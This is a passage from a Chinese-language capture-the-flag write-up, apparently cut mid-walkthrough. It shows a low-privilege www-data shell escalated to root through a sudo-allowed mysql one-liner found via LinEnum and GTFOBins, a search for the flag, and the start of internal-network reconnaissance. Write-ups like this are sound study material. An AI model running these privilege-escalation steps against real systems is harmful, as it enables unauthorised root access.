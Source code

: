 ### 提权

但权限比较低，尝试提权

```bash
/var/www/html/ >whoami
www-data

/var/www/html/ >
```

上传信息收集脚本LinEnum.sh并执行，发现了有sudo提权，命令是mysql

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112110054-vkf7jvj.png?imageSlim)​

去[GTFOBins](https://gtfobins.github.io/)查一下

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112110459-l9pzh5n.png?imageSlim)​

```bash
sudo mysql -e '\! /bin/sh'
```

随后

```bash
find / -name *flag*
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112110757-igbeemc.png?imageSlim)​

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112110733-q89g68e.png?imageSlim)​

### flag01

 flag{60b53231-

## 内网渗透

### 信息收集

```bash
www-data@ubuntu-web01:/var/www/html$ ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.1.15  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe04:448  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:04:04:48  txqueuelen 1000  (Ethernet)
        RX packets 127464  bytes 159592057 (159.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 34792  bytes 14822017 (14.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2048  bytes 173247 (173.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2048  bytes 173247 (173.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

